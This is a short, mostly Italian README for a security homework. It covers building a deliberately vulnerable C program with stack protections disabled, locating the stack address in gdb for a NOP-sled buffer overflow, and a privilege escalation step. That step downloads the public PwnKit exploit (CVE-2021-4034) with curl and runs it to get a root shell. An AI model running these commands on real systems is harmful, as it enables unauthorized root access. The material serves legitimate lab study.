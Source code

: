 ## FILE PER Homework di sicurezza informatica

Remember to check with checksec the attributes of main.o and disable ASLR!

```
gcc -o main.o main.c -fno-stack-protector -z execstack
```

Guardo com'è strutturata la stack e becco l'indirizzo iniziale di stack

disas oflow
(set breakpoint after strcpy)
run $(python3 -c "print(b'A'*30)")
x/200xb $esp

L'indirizzo di inizio stack 0xbfffee2c (verrà poi scritto little-endian e aumentato leggermente per puntare alla nop sled)


Per effettuare il privilege escalation è possibile utilizzare 

```
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit32 -o PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```

The source for this attack is [HERE](https://github.com/ly4k/PwnKit), and it's based on [CVE-2021-4034](https://nvd.nist.gov/vuln/detail/cve-2021-4034)
La relazione si trova nel form google nel link

